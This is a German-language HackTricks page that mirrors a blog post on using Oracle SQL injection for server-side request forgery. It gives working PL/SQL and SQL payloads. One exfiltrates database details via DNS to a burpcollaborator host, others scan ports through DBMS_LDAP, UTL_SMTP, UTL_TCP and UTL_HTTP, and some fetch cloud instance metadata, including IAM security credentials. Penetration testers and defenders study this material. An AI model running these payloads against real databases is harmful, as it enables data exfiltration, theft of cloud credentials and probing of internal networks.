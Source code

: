 # Oracle injection

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

**Diene diesem Beitrag als Wayback-Maschinenkopie des gelöschten Beitrags von [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)**.

## SSRF

Die Verwendung von Oracle für Out of Band HTTP- und DNS-Anfragen ist gut dokumentiert, aber als Mittel zur Exfiltration von SQL-Daten in Injektionen. Wir können diese Techniken/Funktionen immer modifizieren, um andere SSRF/XSPA durchzuführen.

Die Installation von Oracle kann wirklich schmerzhaft sein, insbesondere wenn du eine schnelle Instanz einrichten möchtest, um Befehle auszuprobieren. Mein Freund und Kollege bei [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), wies mich auf [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) hin, das es mir ermöglichte, eine Instanz auf einer t2.large AWS Ubuntu-Maschine und Docker einzurichten.

Ich führte den Docker-Befehl mit dem `--network="host"`-Flag aus, damit ich Oracle als native Installation mit vollem Netzwerkzugang nachahmen konnte, während dieses Blogbeitrags.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Oracle-Pakete, die eine URL oder eine Hostname/Portnummer-Spezifikation unterstützen <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Um Pakete und Funktionen zu finden, die eine Host- und Port-Spezifikation unterstützen, habe ich eine Google-Suche in der [Oracle-Datenbank Online-Dokumentation](https://docs.oracle.com/database/121/index.html) durchgeführt. Genauer gesagt,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
Die Suche ergab die folgenden Ergebnisse (nicht alle können verwendet werden, um ausgehende Netzwerke durchzuführen)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

Diese grobe Suche überspringt offensichtlich Pakete wie `DBMS_LDAP` (das das Übergeben eines Hostnamens und einer Portnummer ermöglicht), da [die Dokumentationsseite](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) Sie einfach auf einen [anderen Ort](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) verweist. Daher kann es andere Oracle-Pakete geben, die missbraucht werden können, um ausgehende Anfragen zu stellen, die ich möglicherweise übersehen habe.

In jedem Fall lassen Sie uns einige der Pakete betrachten, die wir entdeckt und oben aufgelistet haben.

**DBMS\_LDAP.INIT**

Das `DBMS_LDAP`-Paket ermöglicht den Zugriff auf Daten von LDAP-Servern. Die Funktion `init()` initialisiert eine Sitzung mit einem LDAP-Server und nimmt einen Hostnamen und eine Portnummer als Argument.

Diese Funktion wurde zuvor dokumentiert, um die Exfiltration von Daten über DNS zu zeigen, wie unten
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
Allerdings, da die Funktion einen Hostnamen und eine Portnummer als Argumente akzeptiert, können Sie dies auch verwenden, um wie ein Portscanner zu arbeiten.

Hier sind einige Beispiele
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
Eine `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` zeigt, dass der Port geschlossen ist, während ein Sitzungswert darauf hinweist, dass der Port geöffnet ist.

**UTL\_SMTP**

Das `UTL_SMTP`-Paket ist zum Versenden von E-Mails über SMTP konzipiert. Das auf der [Oracle-Dokumentationsseite bereitgestellte Beispiel zeigt, wie Sie dieses Paket verwenden können, um eine E-Mail zu senden](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). Für uns ist jedoch das Interessante die Möglichkeit, eine Host- und Port-Spezifikation bereitzustellen.

Ein einfaches Beispiel wird unten mit der Funktion `UTL_SMTP.OPEN_CONNECTION` gezeigt, mit einem Timeout von 2 Sekunden.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
Ein `ORA-29276: transfer timeout` zeigt an, dass der Port offen ist, aber keine SMTP-Verbindung hergestellt wurde, während ein `ORA-29278: SMTP transient error: 421 Service not available` zeigt, dass der Port geschlossen ist.

**UTL\_TCP**

Das `UTL_TCP`-Paket und seine Prozeduren und Funktionen ermöglichen [TCP/IP-basierte Kommunikation mit Diensten](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Wenn es für einen bestimmten Dienst programmiert ist, kann dieses Paket leicht zu einem Zugang zum Netzwerk werden oder vollständige Server Side Requests durchführen, da alle Aspekte einer TCP/IP-Verbindung kontrolliert werden können.

Das Beispiel [auf der Oracle-Dokumentationsseite zeigt, wie Sie dieses Paket verwenden können, um eine rohe TCP-Verbindung herzustellen, um eine Webseite abzurufen](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Wir können es ein wenig vereinfachen und verwenden, um beispielsweise Anfragen an die Metadateninstanz oder an einen beliebigen TCP/IP-Dienst zu stellen.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
Interessanterweise kann dieses Paket aufgrund der Fähigkeit, rohe TCP-Anfragen zu erstellen, auch verwendet werden, um den Instanz-Meta-Daten-Dienst aller Cloud-Anbieter abzufragen, da der Methodentyp und zusätzliche Header alle innerhalb der TCP-Anfrage übergeben werden können.

**UTL\_HTTP und Webanfragen**

Vielleicht die häufigste und am weitesten dokumentierte Technik in jedem Out of Band Oracle SQL Injection-Tutorial ist das [`UTL_HTTP`-Paket](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070). Dieses Paket wird in der Dokumentation definiert als - `Das UTL_HTTP-Paket führt Hypertext Transfer Protocol (HTTP)-Aufrufe aus SQL und PL/SQL durch. Sie können es verwenden, um über HTTP auf Daten im Internet zuzugreifen.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
Sie könnten dies zusätzlich verwenden, um auch einige rudimentäre Port-Scans mit Abfragen wie durchzuführen.
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
Ein `ORA-12541: TNS:no listener` oder ein `TNS:operation timed out` ist ein Zeichen dafür, dass der TCP-Port geschlossen ist, während ein `ORA-29263: HTTP protocol error` oder Daten ein Zeichen dafür sind, dass der Port offen ist.

Ein weiteres Paket, das ich in der Vergangenheit mit unterschiedlichem Erfolg verwendet habe, ist die [`GETCLOB()`-Methode des `HTTPURITYPE` Oracle abstrakten Typs](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705), die es Ihnen ermöglicht, mit einer URL zu interagieren und Unterstützung für das HTTP-Protokoll bietet. Die `GETCLOB()`-Methode wird verwendet, um die GET-Antwort von einer URL als [CLOB-Datentyp](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html) abzurufen. [select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
